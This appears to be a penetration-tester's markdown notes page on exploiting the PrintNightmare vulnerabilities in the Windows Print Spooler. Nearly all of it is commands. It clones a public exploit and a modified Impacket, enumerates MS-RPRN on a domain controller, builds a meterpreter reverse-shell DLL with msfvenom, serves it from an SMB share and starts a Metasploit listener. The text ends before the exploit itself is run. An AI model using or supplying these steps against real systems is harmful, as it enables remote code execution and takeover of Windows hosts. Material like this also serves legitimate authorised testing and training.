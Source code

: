 
## 🖨️ PrintNightmare

`PrintNightmare` is the nickname given to two vulnerabilities ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) found in the [Print Spooler service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) that runs on all Windows operating systems.

We will be using [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit.

```bash
git clone https://github.com/cube0x0/CVE-2021-1675.git
```

For this exploit to work successfully, we will need to use cube0x0's version of Impacket:

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

Enumerating for MS-RPRN:

```bash
# We can use rpcdump.py to see if Print System Asynchronous Protocol and Print System Remote Protocol are exposed on the target.
rpcdump.py @$DomainControllerIP | egrep 'MS-RPRN|MS-PAR'
# Example:
# rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

After confirming this, we can proceed with attempting to use the exploit. We can begin by crafting a DLL payload using msfvenom.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$IPhost LPORT=8080 -f dll > $FileName.dll
# Example:
# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```

We will then host this payload in an SMB share we create on our attack host using smbserver.py.

```bash
# Creating a Share with smbserver.py
sudo smbserver.py -smb2support $ShareName /path/to/$FileName.dll
# Example:
# sudo smbserver.py -smb2support CompData /home/
# This will leave our terminal in the host machine with no other use than that of sharing.
```

Then we will need to open a two new terminals in our attacker machine:

```bash
# In the first terminal we will configure ant start a MSF multi/handler
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
run
```
